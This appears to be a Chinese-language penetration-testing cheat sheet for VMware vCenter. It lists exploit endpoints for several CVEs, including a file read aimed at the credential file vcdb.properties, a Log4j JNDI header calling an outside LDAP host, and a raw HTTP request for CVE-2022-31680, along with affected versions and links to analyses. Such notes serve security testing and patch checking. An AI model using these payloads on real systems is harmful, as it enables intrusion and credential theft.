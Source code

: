 # vcenter

### 版本查看

```
/sdk/vimServiceVersions.xml
```

### VMware vCenter Server 任意文件读取漏洞

[VMware vCenter Server 任意文件读取漏洞](https://forum.90sec.com/t/topic/1582)

endpoint
```
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

### CVE-2021-21972

[VMware vCenter RCE 漏洞踩坑实录——一个简单的RCE漏洞到底能挖出什么知识](https://mp.weixin.qq.com/s/eamNsLY0uKHXtUw_fiUYxQ)

[CVE-2021-21972 vCenter Server 文件写入漏洞分析](https://blog.noah.360.net/vcenter-6-5-7-0-rce-lou-dong-fen-xi/)

```
VMware vCenter Server 7.0系列 < 7.0.U1c
VMware vCenter Server 6.7系列 < 6.7.U3l
VMware vCenter Server 6.5系列 < 6.5 U3n
VMware ESXi 7.0系列 < ESXi70U1c-17325551
VMware ESXi 6.7系列 < ESXi670-202102401-SG
VMware ESXi 6.5系列 < ESXi650-202102101-SG
```

endpoint 

```
/ui/vropspluginui/rest/services/uploadova
```

### CVE-2021-21985

[CVE-2021-21985 VMware vCenter Server远程代码执行漏洞分析](https://www.ghtwf01.cn/2022/07/31/CVE-2021-21985%20VMware%20vCenter%20Server%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

```
VMware vCenter Server 7.0系列 < 7.0.U2b
VMware vCenter Server 6.7系列 < 6.7.U3n
VMware vCenter Server 6.5系列 < 6.5 U3p
VMware Cloud Foundation 4.x 系列 < 4.2.1
VMware Cloud Foundation 4.x 系列 < 3.10.2.1
```

### CVE-2021-22005

[vCenter RCE 详细分析过程 (CVE-2021–22005)](https://cloud.tencent.com/developer/article/1887641)

```
VMware vCenter Server 7.0
VMware vCenter Server 6.7 Running On Virtual Appliance
VMware Cloud Foundation (vCenter Server) 4.x
VMware Cloud Foundation (vCenter Server) 3.x
```

### Log4j

endpoint

```
/websso/SAML2/SSO/vsphere.local?SAMLRequest=

X-Forwarded-For: ${jndi:ldap://exp}
```



### CVE-2022-31680

[CVE-2022-31680](https://talosintelligence.com/vulnerability_reports/TALOS-2022-1587)

```
GET /psc/data/constraint/amJzMXszAAAAATMAAAACAAAIRW1wbG95ZWUAASL6C7Hsp5eXAAKXEjO-44rgaCk1FZKH_mF7AQQAAAADAAAGTWFyY2luAAB6aQ HTTP/1.1
Host: 192.168.0.109
Cookie: JSESSIONID=D8E403940B6B595FF53158ED63671A69; XSRF-TOKEN=b28efbac-6d3c-4fcb-b177-baee9c1e005e; VSPHERE-USERNAME=Administrator%40VSPHERE.LOCAL; VSPHERE-CLIENT-SESSION-INDEX=_87577cc1f7ac5bba20fe8d947d9ffcfe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: application/json, text/plain, */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Pragma: no-cache
Isangularrequest: true
X-Xsrf-Token: b28efbac-6d3c-4fcb-b177-baee9c1e005e
Referer: https://192.168.0.109/psc/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

### 后续利用

[VMware vCenter漏洞实战利用总结](https://mp.weixin.qq.com/s/0gg5TDEtL3lCb9pOnm42gg)

[Vcenter实战利用方式总结](https://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247499057&idx=1&sn=24ce83c75152529f2b8ef8543162a734&chksm=cfa55922f8d2d0349b97211fdf45df6c78b26ace580b68579817ed67760aaface17348529cf3&mpshare=1&scene=23&srcid=10245pAGxEFHmXFGCMoKjGdB&sharer_sharetime=1666572610152&sharer_shareid=33fdea7abe6be586e131951d667ccd06#rd)
